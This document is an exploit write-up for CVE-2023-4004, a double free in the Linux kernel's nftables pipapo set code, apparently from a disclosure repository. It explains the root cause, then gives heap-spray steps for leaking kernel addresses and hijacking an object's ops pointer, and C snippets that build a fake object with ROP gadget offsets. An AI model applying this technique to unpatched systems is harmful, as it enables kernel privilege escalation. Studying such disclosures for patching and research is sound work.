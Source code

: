 # Exploit detail about CVE-2023-4004
If you want to get some base information about CVE-2023-4004, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Cause anaylysis

As the code shows in function `nft_pipapo_remove` in /net/netfilter/nft_set_pipapo.c, when a pipapo set wants to remove a element, it find the element by using NFT_SET_EXT_KEY and NFT_SET_EXT_KEY_END:

```
    ...
        match_start = data;
		match_end = (const u8 *)nft_set_ext_key_end(&e->ext)->data;

		start = first_rule;
		rules_fx = rules_f0;

		nft_pipapo_for_each_field(f, i, m) {
			if (!pipapo_match_field(f, start, rules_fx,
						match_start, match_end))
				break;
    ...
```

But a NFT_SET_EXT_KEY_END is not necessary. Function `nft_pipapo_insert` shows a correct way to handle it:

```
    ...
	if (nft_set_ext_exists(ext, NFT_SET_EXT_KEY_END))
		end = (const u8 *)nft_set_ext_key_end(ext)->data;
	else
		end = start;
    ...
```


## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set
- Insert a element into the set without NFT_SET_EXT_KEY_END
- Flush the set without NFT_SET_EXT_KEY_END(After this, the element will be freed but won't be removed from the set)
- Flush the set without NFT_SET_EXT_KEY_END again(After this, the element will be freed again)

## Exploit it
CVE-2023-4004 is very easy to exploit because you can free the element many times. The size of the element is not stable which means there's many ways to exploit it:
```
void *nft_set_elem_init(const struct nft_set *set,
			const struct nft_set_ext_tmpl *tmpl,
			const u32 *key, const u32 *key_end,
			const u32 *data, u64 timeout, u64 expiration, gfp_t gfp)
{
	struct nft_set_ext *ext;
	void *elem;

	elem = kzalloc(set->ops->elemsize + tmpl->len, gfp);
	if (elem == NULL)
		return NULL;
    ...
```
The tmpl->len is related to your input like NFTA_SET_ELEM_USERDATA which means you can control the size of the element. So you just need to find a structure to leak information and control RIP. I choose to use some structures in nftables: `nft_tables` and `nft_object`
```
struct nft_table {
	struct list_head		list;
	struct rhltable			chains_ht;
	struct list_head		chains;
	struct list_head		sets;
	struct list_head		objects;
	struct list_head		flowtables;
	u64				hgenerator;
	u64				handle;
	u32				use;
	u16				family:6,
					flags:8,
					genmask:2;
	u32				nlpid;
	char				*name;
	u16				udlen;
	u8				*udata;
};

struct nft_object {
	struct list_head		list;
	struct rhlist_head		rhlhead;
	struct nft_object_hash_key	key;
	u32				genmask:2,
					use:30;
	u64				handle;
	u16				udlen;
	u8				*udata;
	/* runtime data below here */
	const struct nft_object_ops	*ops ____cacheline_aligned;
	unsigned char			data[]
		__attribute__((aligned(__alignof__(u64))));
};
```
It's easy to spray heap by creating many nft_table with NFTA_TABLE_USERDATA:
```
    ...
	if (nla[NFTA_TABLE_USERDATA]) {
		table->udata = nla_memdup(nla[NFTA_TABLE_USERDATA], GFP_KERNEL);
		if (table->udata == NULL)
			goto err_table_udata;

		table->udlen = nla_len(nla[NFTA_TABLE_USERDATA]);
	}
    ...
```
And nft_object has a pointer of a function list(`const struct nft_object_ops	*ops`), which will be useful for leaking information and control RIP. 

The size of the object is different when you use different type of object. I choose to use the `NFT_OBJECT_CT_EXPECT` object. The heap used by this object belongs to kmalloc-192.
### Leak info

I leak some useful infomation by the following steps.

- Create pipapo `set A`
- Insert `element B` into `set A` without NFT_SET_EXT_KEY_END(make sure sizeof(`element B`)>192 && sizeof(`element B`)<256)
- Flush `set A`, `element B` will be freed but won't be removed
- Create many tables with NFTA_TABLE_USERDATA to get the heap of `element B` back, the length of `NFTA_TABLE_USERDATA` should equal to sizeof(`element B`) 
- Flush `set A` again, `element B` will be freed again but won't be removed
- Create many objects, the size of the objects should equal to sizeof(`element B`). One of them will get the heap of `element B` back.
- Dump/Get all the tables we spray. The `NFTA_TABLE_USERDATA` of one of them should be a strcture of a object. 

### Control RIP
I control the RIP by the following steps which is very similar I used for leaking useful information:

- Create pipapo `set A`
- Insert `element B` into `set A` without NFT_SET_EXT_KEY_END(make sure sizeof(`element B`)>192 && sizeof(`element B`)<256)
- Flush `set A`, `element B` will be freed but won't be removed
- Create many tables with NFTA_TABLE_USERDATA to get the heap of `element B` back, the length of `NFTA_TABLE_USERDATA` should equal to sizeof(`element B`)
- Flush `set A` again, `element B` will be freed again but won't be removed
- Create many objects with `NFTA_OBJ_USERDATA`. The size of the objects should equal to sizeof(`element B`) . `NFTA_OBJ_USERDATA` of the object will be used for ROP.
- Dump/Get all the tables we spray. Find the target tables. The `NFTA_TABLE_USERDATA` of one of them should be a strcture of a object.
- Delete the target table to free the heap of the object.
- Spray many tables with NFTA_TABLE_USERDATA to get the heap of the object back. After this, we will fill fake data of the object. I overwrite the ops of the object structure to control RIP.
- Get target object, and we will finally jump to ROP.
  ```
  static int nft_object_dump(struct sk_buff *skb, unsigned int attr,
			   struct nft_object *obj, bool reset){
	struct nlattr *nest;

	nest = nla_nest_start_noflag(skb, attr);
	if (!nest)
		goto nla_put_failure;
	if (obj->ops->dump(skb, obj, reset) < 0)//After overwrite the ops, we can control RIP here.
		goto nla_put_failure;
	nla_nest_end(skb, nest);
	return 0;
	...
  ```
### ROP detail
Once we finish the step 7 of `Control RIP`, we can get the heap address of the `NFTA_OBJ_USERDATA` of target object, which we spray at step 6.
And I fill the fake data of the object by this:
```
    //ops is the pointer of the memory we will fill in NFTA_OBJ_USERDATA
    //the filed at 0x20 of ops is ops->dump.
    *(uint64_t *)&ops[0x20] = kernel_off + 0xffffffff8198954b;//push rsi ; jmp qword ptr [rsi + 0x39]
	...
    //The filed at 0x48 of the leak_obj is obj->udata, which will be created by NFTA_OBJ_USERDATA.
    uint64_t rop_target_addr = *(uint64_t *)(&leak_obj[0x48]);
    printf("rop : %lx\n", rop_target_addr);
    //Now we try to fill fake data of the object
    //stack migration first time 
    *(uint64_t *)(&leak_obj[0x39]) = kernel_off + 0xffffffff81027924;//pop rsp ; ret 
    // stack migration second time 
    *(uint64_t *)(&leak_obj[0]) = kernel_off + 0xffffffff81027924;//pop rsp ; ret
    *(uint64_t *)(&leak_obj[8]) = rop_target_addr + 0x60;//This is the final ROP address.
    *(uint64_t *)(&leak_obj[0x80]) = rop_target_addr;//the filed at 0x80 offset is a nft_object_ops	struct pointer which set to the heap addr of NFTA_OBJ_USERDATA.
	...
```

And the step of ROP looks like this:
```

 obj->ops->dump(skb, obj, reset)  ->  
 push rsi ; jmp qword ptr [rsi + 0x39] ->  //RSI will be the pointer of the object
 pop rsp ; ret -> //stack migration, the rsp will be the pointer of the object 
 pop rsp ; ret -> //stack migration again, the rsp will be rop_target_addr + 0x60(the pointer of the NFTA_OBJ_USERDATA + 0x60) 
 now we can do normal ROP here
```
